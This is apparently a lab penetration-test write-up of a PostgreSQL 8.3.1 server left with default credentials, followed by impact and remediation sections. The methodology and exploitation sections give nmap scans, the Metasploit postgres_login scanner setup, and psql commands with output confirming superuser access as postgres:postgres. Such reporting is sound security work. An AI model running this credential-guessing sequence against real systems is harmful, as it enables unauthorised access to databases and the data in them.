







# Finding 5: PostgreSQL 8.3.1 — Default Credentials

| | |
|---|---|
| **Service** | PostgreSQL (Port 5432) |
| **Version** | PostgreSQL 8.3.1 |
| **CVE** | N/A (Misconfiguration, not a code vulnerability) |
| **CWE** | CWE-521 (Weak Password Requirements) / CWE-798 (Use of Hard-coded Credentials) |
| **Severity** | Critical |
| **CVSS (approx.)** | 9.8 (Critical) — unauthenticated full database access as superuser |

---

## 1. Methodology

**Step 1 — Confirm connectivity to the target**

```
ping -c 4 192.168.56.102
```

Verified the target (`192.168.56.102`) was reachable from the attacker machine with 0% packet loss.



**Step 2 — Full service/version enumeration**

```
nmap -sV -sC 192.168.56.102
```

Full scan confirmed multiple open services on the target, alongside PostgreSQL on port 5432.



**Step 3 — Identify a suitable Metasploit module**

```
msfconsole
search postgres
```

Located Metasploit's built-in credential scanner for PostgreSQL:
```
auxiliary/scanner/postgres/postgres_login
```



---

## 2. Exploitation

**Step 1 — Configure the login scanner**

```
use auxiliary/scanner/postgres/postgres_login
set RHOSTS 192.168.56.102
options
```

Confirmed target configuration: `RPORT 5432`, `DATABASE template1`, with a bundled default wordlist (`postgres_default_user.txt` / `postgres_default_pass.txt`) ready for credential testing.



**Step 2 — Run the credential scan**

```
set USERNAME postgres
set PASSWORD postgres
run
```

The scanner tested multiple common credential pairs (`tiger`, `password`, `admin`, `scott`, blank, etc.) against the `postgres` superuser account. All failed except one:

```
[+] 192.168.56.102:5432 - Login Successful: postgres:postgres@template1
```

This confirmed the PostgreSQL superuser account was configured with the trivially guessable default credential pair **postgres:postgres**.



**Step 3 — Connect directly and verify access**

```
psql -h 192.168.56.102 -U postgres -d template1
```

Authenticated successfully using the confirmed credentials. Queried server version and enumerated available databases and users:

```
SELECT version();
 PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3

SELECT datname FROM pg_database;
 template1
 template0
 postgres

SELECT usename, usesuper FROM pg_user;
 postgres | t
```



**Step 4 — Confirm superuser privilege level**

```
\c postgres
```

Reconnected to the `postgres` database, confirming the session was authenticated **as user "postgres"** with superuser (`usesuper = t`) privileges — the highest privilege level PostgreSQL offers.



---

## 3. Impact

- **Full unauthenticated access** to the PostgreSQL superuser account and all databases on the server
- Superuser privileges in PostgreSQL allow reading/writing any data, creating/dropping databases and roles, and — via functions like `COPY ... TO/FROM PROGRAM` — potentially executing arbitrary OS commands, making this a viable path to full system compromise
- No code exploit or user interaction required — only knowledge that the service is exposed and testing widely known default credentials
- Legacy server version (8.3.1) is over 15 years past end-of-life and receives no security patches, compounding the risk

---

## 4. Remediation

- Immediately change the `postgres` superuser password to a strong, unique value; never leave default credentials in place
- Upgrade to a currently supported PostgreSQL release; version 8.3 has been end-of-life since 2013
- Restrict database service exposure (port 5432) to trusted application servers only, never the public internet
- Enforce `pg_hba.conf` authentication policies that reject weak or default credential pairs, and consider certificate-based authentication for sensitive environments
- Apply the principle of least privilege — avoid using the `postgres` superuser account for routine application-level connections
- Enable logging and alerting on failed/successful authentication attempts to detect credential-guessing activity
